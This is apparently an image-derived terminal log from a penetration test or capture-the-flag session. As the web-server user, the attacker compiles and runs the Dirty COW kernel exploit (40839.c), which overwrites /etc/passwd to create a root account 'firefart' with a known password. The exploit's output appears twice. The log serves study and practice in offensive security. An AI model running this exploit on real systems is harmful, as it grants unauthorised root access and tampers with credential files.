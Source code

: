   

     0K ....                                                  100%  214K=0.02s

  

2023-06-15 07:42:22 (214 KB/s) - `40839.c' saved [4814/4814]

  

www-data@ubuntu:/tmp$ gcc -pthread 40839.c -o dirty -lcrypt

gcc -pthread 40839.c -o dirty -lcrypt

gcc: error trying to exec 'cc1': execvp: No such file or directory

www-data@ubuntu:/tmp$ export PATH=/usr/lib/gcc/x86_64-linux-gnu/4.6:$PATH

export PATH=/usr/lib/gcc/x86_64-linux-gnu/4.6:$PATH

www-data@ubuntu:/tmp$ gcc -pthread 40839.c -o dirty -lcrypt

gcc -pthread 40839.c -o dirty -lcrypt

www-data@ubuntu:/tmp$ ./dirty

./dirty

Please enter the new password: password

/etc/passwd successfully backed up to /tmp/passwd.bak

Complete line:

firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

  

mmap: 7f1aa8b50000

ptrace 0

Done! Check /etc/passwd to see if the new user was created.

You can log in with the username 'firefart' and the password 'password'.

  

  

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

/etc/passwd successfully backed up to /tmp/passwd.bak

Complete line:

firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash

  

mmap: 7f1aa8b50000

madvise 0

  

Done! Check /etc/passwd to see if the new user was created.

You can log in with the username 'firefart' and the password 'password'.
